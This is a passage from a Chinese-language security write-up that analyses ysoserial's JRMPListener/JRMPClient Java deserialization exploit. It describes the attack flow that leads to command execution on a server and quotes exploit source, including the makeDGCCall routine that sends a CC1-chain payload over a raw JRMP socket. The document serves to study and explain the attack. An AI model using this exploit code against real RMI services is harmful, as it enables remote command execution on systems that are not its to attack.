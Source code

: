 [![](assets/1701612165-32565bdb2461c70b7caee670edef4fe5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230810224937-209c0f02-378d-1.png)  
服务端成功命令执行

### 攻击流程

1.  payloads.JRMPListener生成payload1，用于在服务器上开启一个rmi端口（这里的端也是服务端）
2.  服务端接收到payload1后，进行反序列化，成功开启9999端口并监听
3.  exploit.JRMPClient端生成恶意payload2，并向服务端发送
4.  服务端检测到端口上有数据请求，经过解包、反序列化（rmi中的知识）后导致命令执行

### exploit.JRMPClient分析

**第一步**：生成payload  
在exploit.JRMPClient的main函数中，使用下面这句代码生成CC1链所需要的payload

```plain
Object payloadObject = Utils.makePayloadObject(args[2], args[3]);
```

**第二步**：

```plain
makeDGCCall(hostname, port, payloadObject);
```

进入该函数

```plain
public static void makeDGCCall ( String hostname, int port, Object payloadObject ) throws IOException, UnknownHostException, SocketException {
    // 创建网络地址
    InetSocketAddress isa = new InetSocketAddress(hostname, port);
    Socket s = null;
    DataOutputStream dos = null;
    try {
        // 创建套接字和输出流
        s = SocketFactory.getDefault().createSocket(hostname, port);
        s.setKeepAlive(true);
        s.setTcpNoDelay(true);

        OutputStream os = s.getOutputStream();
        dos = new DataOutputStream(os);

        // 向输出流写入一系列字节，表示调用相关的信息。这些信息包括魔数、版本、协议类型、调用类型等
        dos.writeInt(TransportConstants.Magic);
        dos.writeShort(TransportConstants.Version);
        dos.writeByte(TransportConstants.SingleOpProtocol);

        dos.write(TransportConstants.Call);

        @SuppressWarnings ( "resource" )
        // 创建对象输出流
```